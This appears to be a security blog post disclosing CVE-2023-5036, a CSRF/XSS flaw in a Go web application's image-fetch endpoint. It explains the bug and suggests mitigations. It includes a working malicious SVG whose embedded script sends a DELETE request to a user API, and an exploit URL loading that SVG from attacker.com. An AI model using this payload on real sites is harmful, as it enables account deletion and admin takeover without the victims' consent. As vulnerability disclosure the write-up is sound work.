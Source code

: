 ```yaml
---
title: CVE-2023-5036 - CSRF in Golang web app
date: 2023-09-18 20:19:47
tags: CVE
---
```


## What is a CSRF vulnerability?

CSRF (Cross-Site Request Forgery) is an attack that allows attackers to force authenticated users to make requests on their behalf. In other words, it allows a motivated adversary to force users to do things without their consent. The user may be forced to make an embarrassing social media post, or authorize a bank transaction without realizing. If you can perform CSRF on an admin user it even opens the ability for attackers to take down an entire application.

## Our problem

Often times, CSRF vulnerabilities when paired with another vulnerability such as cross-site scripting (XSS) can lead to disastrous outcomes. In this instance, the application in question had an endpoint which would fetch images that didn't have the proper validation in place to either prevent CSRF or XSS. Due to this, we were able to craft a malicious image that would make a request on behalf of the user that clicks our link.

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    fetch("http://server-name.com/api/v1/user/2", { method: "DELETE", headers: { "Origin": "server-name.com" } })
  </script>
</svg>
```

SVG files are considered valid images but in this case it also served as our attack vector. By injecting javascript into the image we can force an unsuspecting user who clicks on the following link to do anything from deleting their account to making an embarrassing post. 

```
https://server-name.com:5230/o/get/image?url=https://attacker.com/malicious.svg

```

Had we tricked an admin into clicking the above link, we would even be able to change the password if the password change form didn't require knowledge of the old password (which it didn't). The lack of authentication required to form the attack along with the non-trivial consequences of exploitation make this a rather critical vulnerability that should be patched immediately for those running this software. 

Part of me wishes that there were more to write about this exploit but the fact of the matter is that sometimes exploitation can be really easy. In this case there happened to be an endpoint that reaches out to an external URL which is always a manage concern when developing webapps. When making any API route that makes any sort of request based on a url parameter (whether it happens server side or client side) there should always be safeguards put in place. This could be a CSRF token which prevents clients' browsers from making requests to other sites, or input sanitization to prevent unwanted javascript from executing. There are certainly other measures you can put in place that might be more comprehensive while, but in my opinion santizing javascript out of an image is perfectly fine because I've yet to encounter an image with benign javascript embedded in it in the wild. Stay safe out there.
